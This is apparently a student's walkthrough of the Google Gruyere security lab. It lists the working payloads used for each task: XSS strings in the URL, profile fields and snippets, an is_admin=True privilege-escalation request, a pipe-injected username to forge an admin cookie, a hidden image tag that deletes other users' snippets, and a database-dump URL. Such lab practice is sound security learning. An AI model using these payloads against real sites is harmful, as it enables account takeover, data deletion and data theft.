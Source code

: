 https://google-gruyere.appspot.com/361594034863523106218848971486142268022/

# TASK 2 - XSS (Cross Site Scripting)

URL bar:
```
<script>alert('xxs')</script>
```

Profile color: 
```
green'onmouseover='alert("color xss");'"
```

Profile homepage:
```
google.com'onmouseover="alert('a tag XSS');""
```

Snippet:
Enables it to be ran on others machines
```
<img width='50px' src='https://external-content.duckduckgo.com/iu/?u=https%3A%2F%2Ftse2.mm.bing.net%2Fth%3Fid%3DOIP.FWOwCQvSgPnBz4yXh2yD6QHaFB%26o%3D6%26pid%3DApi&f=1' onmouseenter='alert("snippet xss")'>
```

Private snippet: Won't run on anothers machine as private

Causes alert(1) on profile editting reload
```
</textarea><iframe src="https://www.youtube.com/embed/DLzxrzFCyOs?autoplay=1" width="533" height="300" frameborder="0" allowfullscreen=""></iframe>
```

# TASK 3 - State Manipulation

## Privilege Escalation

**Hint 1**

Take a look at the editprofile.gtl page that users and administrators use to edit profile settings.
If you’re not an administrator, the page looks a bit different. Can you figure out how to fool
Gruyere into letting you use this page to update your account?

**Hint 2**

Can you figure out how to fool Gruyere into thinking you used this page to update your
account?

~~Must send a custom cookie that claims me as admin~~

I found the is_author flag in URI and the **is_admin** in the data.py file - and so tried putting the **is_admin=True** query in URI. Admitedly I didn't think anything had happened until I checked the hints Google provided and found you had to relog. 

Add is_admin=True onto a saveprofile request. So request becomes:
```
google-gruyere.appspot.com/361594034863523106218848971486142268022/saveprofile?action=update&is_admin=True
```

## Cookie Manipulation

**Hint 1**
You don’t need to look at the Gruyere cookie parsing code. You just need to know what the
cookies look like. Gruyere’s cookies use the format:
hash|username|admin|author

**Hint 2**
Gruyere issues a cookie when you log in. Can you trick it into issuing you a cookie that looks
like another user’s cookie?

Create user called "haha|admin|author"

```
google-gruyere.appspot.com/361594034863523106218848971486142268022/saveprofile?action=new&uid=Brie%7Cadmin%7Cauthor%3B%20&pw=&is_author=True
```

# TASK 4 - XSRF (Cross-Site Request Forgery)

**Hint 1**
What is the URL used to delete a snippet? Look at the URL associated with the "X" next to a
snippet.

Adding the following to a snippet will delete the second snipped from any user that views it.
```
<img src="/361594034863523106218848971486142268022/deletesnippet?index=1" style="display:none">
```

# TASK 5 - XSSI (Cross-Site Script Inclusion)

**Hint 1**
You can run a script from another domain by adding
<SCRIPT src="https://google-gruyere.appspot.com/123/..."></SCRIPT>
to your HTML file. What scripts does Gruyere have?

**Hint 2**
feed.gtl is a script. Given that, how can you get the private snippet out of the script?

GET request in URL bar to `https://google-gruyere.appspot.com/361594034863523106218848971486142268022/feed.gtl?uid=brie` returns the most recent snippet from brie

# TASK 6 - Config Vulnerabilities

**Hint 1**
Look at all the files installed with Gruyere. Are there any files that shouldn’t be there?
**Hint 2**
Look for a .gtl file that isn’t referenced anywhere.

Dump the entire DB: https://google-gruyere.appspot.com/361594034863523106218848971486142268022/dump.gtl

